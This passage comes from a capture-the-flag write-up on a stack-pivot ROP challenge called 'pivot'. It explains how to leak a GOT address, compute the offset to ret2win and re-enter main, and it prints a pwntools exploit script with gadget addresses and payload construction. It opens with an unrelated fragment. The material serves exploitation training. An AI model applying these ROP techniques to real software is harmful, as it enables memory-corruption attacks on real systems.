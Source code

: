 ```asm
float:  0.000000f
double: 0.000000
trits   0t110101
```

Neat eh? So we know that `ret2win` is `0x14e` away from `foothold_function` and we can force the binary to leak us the `foothold_function` address from the GOT.
But now that we know the `ret2win` function's address, the binary crashes! We only get these two changes at input - we need to be able to have another shot at input to the executable after we've leaked the address!

This had me stumped for a while - how could we possibly leverage the `ret2win` address if we only received it after we had already sent our payload???

Luckily for me, my friend @cfinucane was around and very helpfully pointed out that I still had control of the last return pointer and that after my payload I could jump anywhere I want, including back to the top of `pwnme` in order to run through the `fgets` calls again 😹

Unfortunately, the `pwnme` function's address contains `0x0a` which corresponds to a newline, so we won't be able to pass that in through the `fgets` call.
Luckily we can just use the address of `main` because it calls `pwnme`.

So now that we've leaked the `ret2win` address, we just need to use it for the stack smash on the second go around:

```python
from pwn import *
import re

l = process("./pivot")

pop_rax = p64(0x00400b00) # pop rax; ret
pop_rdi = p64(0x00400b73) # pop rdi; ret

xchg_rax_rsp = p64(0x00400b02) # xchg rax, rsp; ret

mov_rax_rax = p64(0x00400b05) # mov rax, qword [rax]; ret

add_rax_rbp = p64(0x00400b09) # add rax, rbp; ret

foothold_function = p64(0x00400850) # The PLT address, because the address in the pwnme function contains a 0x0a (newline)

main = p64(0x00400996)
puts = p64(0x00400800)
foothold_got = p64(0x602048)

message1 = l.recvuntil("> ")
print "message1: "
print message1
r = r'pivot: (.*)$'
heap_addr = p64(int(re.search(r, message1, re.MULTILINE).group(1), 16))

print "Found heap_addr: ", heap_addr

payload1 = foothold_function
payload1 += pop_rdi
payload1 += foothold_got
payload1 += puts
payload1 += main
payload1 += "B"*8

print "Sending payload1: ", payload1.encode("hex")
l.sendline(payload1)

print l.recvuntil("> ")
```